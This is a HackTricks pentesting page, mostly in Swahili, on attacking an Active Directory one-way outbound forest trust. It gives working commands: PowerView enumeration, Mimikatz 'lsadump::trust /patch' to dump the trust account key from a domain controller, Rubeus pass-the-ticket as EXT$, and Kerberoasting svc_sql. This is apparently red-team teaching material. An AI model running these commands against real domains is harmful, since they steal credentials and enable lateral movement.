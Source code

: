 # External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Katika hali hii **domeni yako** in **amini** baadhi ya **mamlaka** kwa kiongozi kutoka **domeni tofauti**.

## Enumeration

### Outbound Trust
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

Ukiukosefu wa usalama upo wakati uhusiano wa kuaminiana unapoanzishwa kati ya maeneo mawili, ambayo yanatambulika hapa kama eneo **A** na eneo **B**, ambapo eneo **B** linapanua uaminifu wake kwa eneo **A**. Katika mpangilio huu, akaunti maalum inaundwa katika eneo **A** kwa ajili ya eneo **B**, ambayo ina jukumu muhimu katika mchakato wa uthibitishaji kati ya maeneo mawili. Akaunti hii, inayohusishwa na eneo **B**, inatumika kwa ajili ya kuficha tiketi za kupata huduma kati ya maeneo.

Jambo muhimu kuelewa hapa ni kwamba nenosiri na hash ya akaunti hii maalum yanaweza kutolewa kutoka kwa Kidhibiti cha Eneo katika eneo **A** kwa kutumia zana ya amri. Amri ya kutekeleza kitendo hiki ni:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Hii uchimbaji inawezekana kwa sababu akaunti, iliyotambulishwa na **$** baada ya jina lake, iko hai na inahusishwa na kundi la "Domain Users" la kikoa **A**, hivyo ikirithi ruhusa zinazohusiana na kundi hili. Hii inawawezesha watu kuthibitisha dhidi ya kikoa **A** wakitumia akidi za akaunti hii.

**Warning:** Inawezekana kutumia hali hii kupata msingi katika kikoa **A** kama mtumiaji, ingawa kwa ruhusa zilizopunguzwa. Hata hivyo, ufikiaji huu unatosha kufanya uhesabuji katika kikoa **A**.

Katika hali ambapo `ext.local` ni kikoa kinachotegemea na `root.local` ni kikoa kinachotegemewa, akaunti ya mtumiaji iliyoitwa `EXT$` ingekuwa ikiumbwa ndani ya `root.local`. Kupitia zana maalum, inawezekana kutoa funguo za kuaminiana za Kerberos, zikifunua akidi za `EXT$` katika `root.local`. Amri ya kufanikisha hili ni:
```bash
lsadump::trust /patch
```
Kufuata hili, mtu anaweza kutumia funguo ya RC4 iliyochukuliwa kuthibitisha kama `root.local\EXT$` ndani ya `root.local` kwa kutumia amri ya chombo kingine:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Huu hatua ya uthibitishaji inafungua uwezekano wa kuhesabu na hata kutumia huduma ndani ya `root.local`, kama vile kufanya shambulio la Kerberoast ili kutoa akauti za huduma kwa kutumia:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Kukusanya nenosiri la kuaminiana la wazi

Katika mchakato uliopita, ilitumika hash ya kuaminiana badala ya **nenosiri la wazi** (ambalo pia **lilikuwa limeondolewa na mimikatz**).

Nenosiri la wazi linaweza kupatikana kwa kubadilisha \[ CLEAR ] kutoka kwa mimikatz kutoka hexadecimal na kuondoa bytes za null ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

Wakati mwingine unapounda uhusiano wa kuaminiana, nenosiri linapaswa kuandikwa na mtumiaji kwa ajili ya kuaminiana. Katika onyesho hili, ufunguo ni nenosiri la kuaminiana la awali na hivyo linaweza kusomeka na binadamu. Kadri ufunguo unavyopitia (siku 30), nenosiri la wazi halitasomeka na binadamu lakini kiufundi bado linaweza kutumika.

Nenosiri la wazi linaweza kutumika kufanya uthibitishaji wa kawaida kama akaunti ya kuaminiana, mbadala wa kuomba TGT kwa kutumia ufunguo wa siri wa Kerberos wa akaunti ya kuaminiana. Hapa, kuuliza root.local kutoka ext.local kwa wanachama wa Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Marejeleo

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
